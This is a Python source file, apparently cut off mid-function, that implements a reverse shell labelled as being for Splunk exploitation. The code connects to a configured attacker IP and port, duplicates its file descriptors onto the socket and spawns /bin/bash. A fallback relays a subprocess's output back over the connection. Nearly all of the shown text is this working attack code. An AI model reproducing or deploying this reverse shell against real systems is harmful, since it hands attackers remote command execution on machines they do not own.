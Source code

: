 #### Python Reverse Shell Implementation
```python
#!/usr/bin/env python3
# bin/reverse_shell.py - Python reverse shell for Splunk exploitation

import sys
import socket
import os
import pty
import subprocess
import threading
import time

# Configuration
ATTACKER_IP = "10.10.14.15"  # Replace with attacker IP
ATTACKER_PORT = 4443         # Replace with listener port

def establish_reverse_shell():
    """
    Establish reverse shell connection to attacker
    """
    try:
        # Create socket connection
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((ATTACKER_IP, ATTACKER_PORT))
        
        # Duplicate file descriptors for shell
        os.dup2(sock.fileno(), 0)  # stdin
        os.dup2(sock.fileno(), 1)  # stdout
        os.dup2(sock.fileno(), 2)  # stderr
        
        # Spawn shell
        pty.spawn("/bin/bash")
        
    except Exception as e:
        # Alternative method if pty fails
        try:
            process = subprocess.Popen(["/bin/bash"], 
                                     stdin=subprocess.PIPE,
                                     stdout=subprocess.PIPE,
                                     stderr=subprocess.PIPE)
            
            sock.send(b"[+] Reverse shell established\n")
            
            def send_output():
                while True:
                    try:
                        data = process.stdout.read(1024)
                        if data:
                            sock.send(data)
                        else:
                            break
                    except:
                        break
            
            def send_errors():
                while True:
                    try:
                        data = process.stderr.read(1024)
                        if data:
                            sock.send(data)
                        else:
                            break
```